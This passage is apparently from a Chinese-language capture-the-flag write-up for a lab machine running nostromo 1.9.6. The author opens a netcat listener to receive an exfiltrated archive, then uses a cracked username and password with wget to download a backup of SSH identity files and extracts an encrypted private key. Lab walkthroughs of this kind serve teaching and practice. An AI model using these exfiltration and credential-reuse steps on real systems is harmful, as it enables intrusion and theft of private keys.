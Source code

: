 
在我的主机上：

    root@kali# nc -lnvp 443 > backup-identity-files.tgz.b64 
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:53004.
    

我也可以通过Web服务器获取文件。如果我的网址，我得到401未经授权：`curl`

    root@kali# curl 10.10.10.165/~david/protected-file-area/
    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
    <html>
    <head>
    <title>401 Unauthorized</title>
    <meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
    </head>
    <body>
    
    <h1>401 Unauthorized</h1>
    
    <hr>
    <address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
    </body>
    </html>
    

我可以添加我之前破解的用户名/密码，我可以抓取文件：

    root@kali# wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    --2019-11-22 14:30:35--  http://david:*password*@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
    Connecting to 10.10.10.165:80... connected.
    HTTP request sent, awaiting response... 401 Unauthorized
    Authentication selected: Basic realm="David's Protected File Area. Keep out!"
    Reusing existing connection to 10.10.10.165:80.
    HTTP request sent, awaiting response... 200 OK
    Length: 1915 (1.9K) [application/x-tar]
    Saving to: ‘backup-ssh-identity-files.tgz’
    
    backup-ssh-identity-files.tgz         100%[======================================================================>]   1.87K  --.-KB/s    in 0s      
    
    2019-11-22 14:30:35 (47.4 MB/s) - ‘backup-ssh-identity-files.tgz’ saved [1915/1915]
    

我可以使用 解压缩它，并使用私钥获取主目录的备份：`tar`

    root@kali# tar -zxvf backup-ssh-identity-files.tgz 
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    root@kali# head home/david/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F
    